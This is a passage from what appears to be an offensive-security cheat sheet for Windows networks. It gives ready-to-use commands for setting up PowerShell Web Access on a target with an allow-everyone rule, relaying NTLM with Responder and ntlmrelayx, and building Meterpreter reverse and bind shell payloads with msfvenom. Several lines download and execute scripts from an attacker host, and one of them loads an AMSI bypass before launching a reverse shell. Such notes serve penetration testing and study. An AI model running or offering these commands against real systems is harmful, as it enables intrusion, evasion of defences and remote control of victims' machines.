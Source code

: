 ```
Invoke-Pbing -Target <TARGET> -Domain <DOMAIN> -User <USER> -Password <PASSWORD>
```

### Powershell Web access
- PSWA runs on port 443 on ```/pswa```

#### Install Powershel web access on target
```
Install-WindowsFeature -Name WindowsPowerShellWebAccess
Instal-PswaWebApplication -useTestCertificate
Add-PswaAuthorizationRule -Username <USERNAME> -Computername <COMPUTER> -ConfigurationName <CONFIG NAME>

# Allow everyone (Still requires localadmin on target server)
Add-PswaAuthorizationRule -Username * -Computername * -ConfigurationName *
```

#### Access PSWA
- Go to ```https://<IP>/pswa``` and then login using ```<DOMAIN>/<USER>```

### NTLM Relaying
- https://github.com/lgandx/Responder
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py

#### Crackmapexec list hosts with SMB signed disabled
```
crackmapexec smb <CIDR> --gen-relay-list <OUTPUT FILE>
```

- Edit Responder config file to disable HTTP server and SMB server

#### Run NTLM Relay
```
ntlmrelay.py -t <TARGET> -c 'powershell.exe iex (New-Object.Net.Webclient).Downloadstring(\"http://<ATTACKER IP>/Invoke-PowerShellTcp.ps1\")"' -smb2support 
```
 
#### Run Responder
```
responder -I <INTERFACE> -v
```

#### Usefull payloads
```
# Meterpreter ps1 rev shell
msfvenom -p windows/x64/meterpreter_reverse_https -f psh -o msf.ps1 lhost=<HOST> lport=<PORT> exitfunc=thread

# Meterpreter bind tcp executable
msfvenom -p windows/x64/meterpreter/bind_tcp LHOST=<HOST> LPORT=<PORT> -f exe -o bind_tcp.exe

# Meterpreter reverse tcp executable
Msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<HOST> LPORT=<PORT> -f exe > shell.exe

# Bat file to run reverse powershell
msfvenom -p cmd/windows/reverse_powershell LHOST=<HOST> LPORT=<PORT> > attach.bat
```

#### Reverse.bat
```
powershell.exe -c "iex (New-Object Net.WebClient).DownloadString('http://<IP>/amsi.txt'); iex (New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp2.ps1')"
```
 
